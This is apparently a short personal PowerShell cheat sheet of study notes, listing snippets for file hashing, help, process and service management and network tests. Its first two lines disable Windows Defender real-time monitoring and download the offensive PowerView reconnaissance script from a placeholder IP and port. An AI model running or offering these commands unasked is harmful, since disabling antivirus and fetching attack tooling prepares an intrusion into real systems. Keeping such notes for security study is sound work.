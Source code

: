 ### 25-Jan-24-Thu

```
Set-MpPreference -DisableRealtimeMonitoring $true
```

```
Invoke-WebRequest http://<ip>:<port>/PowerView.ps1 -OutFile PowerView.ps1
```

```
Get-FileHash somefile.ext
```

```
Get-FileHash somfile.ext -Algorithm MD5
```

```
$psversiontable
```

![image](https://github.com/user-attachments/assets/20e96730-c065-4775-b430-3bc1c80f5979)

```
Get-Help Get-Help
```

![image](https://github.com/user-attachments/assets/7aabfd9f-168e-434d-80d5-d9ee4937fbb3)

```
Get-Help -Name Get-Command -Detailed
```

![image](https://github.com/user-attachments/assets/bba5f21b-42d0-42c2-8ae9-da9146982a39)

```
alias
```

![image](https://github.com/user-attachments/assets/64d4d22c-35ec-4ace-bae2-46925963d014)

```
Get-Process
```

```
Stop-Process -id 12345
```

```
Get-Service |Select-Object Status,Name
```

```
Get-Service | Where-Object Status -eq "Running"
```

```
Get-Service | Where-Object Status -ne "Running"
```

```
 Test-NetConnection google.com
```

![image](https://github.com/user-attachments/assets/36f3e110-51b2-4fbc-b389-3a420a4d6bc1)

```
Test-NetConnection 172.19.4.223 -Port 1514
```

<img width="361" alt="image" src="https://github.com/user-attachments/assets/5c3b31ac-e329-400a-bfa5-bf83a319f738" />

```
Start-Process -Verb RunAs -FilePath "powershell"
```

```
Start-Process -Verb RunAs -FilePath "cmd"
```
